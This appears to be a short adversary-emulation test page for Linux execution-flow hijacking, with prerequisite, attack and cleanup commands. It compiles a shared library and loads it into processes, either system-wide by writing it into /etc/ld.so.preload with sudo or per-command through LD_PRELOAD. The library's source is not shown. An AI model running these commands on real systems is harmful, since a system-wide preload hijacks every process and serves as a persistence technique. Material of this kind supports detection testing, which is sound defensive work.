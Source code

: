 # Hijack Execution Flow

Get Prereq Commands:  
```
gcc -shared -fPIC ./inject_lib.c -o inject_lib.so -ldl  
```
  
# Shared Library Injection via /etc/ld.so.preload  
Attack Commands:
```
sudo sh -c 'echo /tmp/inject_lib.so > /etc/ld.so.preload'
``` 
Cleanup Commands:
```
sudo sed -i 's#/tmp/inject_lib.so##' /etc/ld.so.preload  
```

# Shared Library Injection via LD_PRELOAD  
Attack Commands:
```
LD_PRELOAD=/tmp/inject_lib.so ls  
```
